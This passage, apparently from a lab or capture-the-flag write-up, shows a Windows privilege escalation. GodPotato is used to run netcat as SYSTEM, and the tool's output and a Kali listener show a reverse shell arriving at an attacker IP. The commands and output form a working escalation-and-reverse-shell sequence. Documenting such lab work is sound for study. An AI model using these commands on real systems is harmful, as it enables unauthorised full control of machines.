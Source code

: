 ~~~shell
C:\Users\nathan\Nexus\nexus-3.21.0-05>.\GodPotato-NET4.exe -cmd "c:\Users\nathan\Nexus\nexus-3.21.0-05\nc.exe 192.168.45.167 139 -e cmd.exe"
.\GodPotato-NET4.exe -cmd "c:\Users\nathan\Nexus\nexus-3.21.0-05\nc.exe 192.168.45.167 139 -e cmd.exe"
[*] CombaseModule: 0x140722501320704
[*] DispatchTable: 0x140722503663200
[*] UseProtseqFunction: 0x140722503031232
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\a17a64b5-1d2e-4544-8be2-f74bdf1f676e\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000d002-0d4c-ffff-fe3b-ccec06251479
[*] DCOM obj OXID: 0xeb6772a8e970558c
[*] DCOM obj OID: 0x4bbe2da56bcc4d72
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 832 Token:0x772  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 1900
~~~
And I got a root (system) shell on my listener!
~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 139 
listening on [any] 139 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.182.61] 49797
Microsoft Windows [Version 10.0.18362.719]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
~~~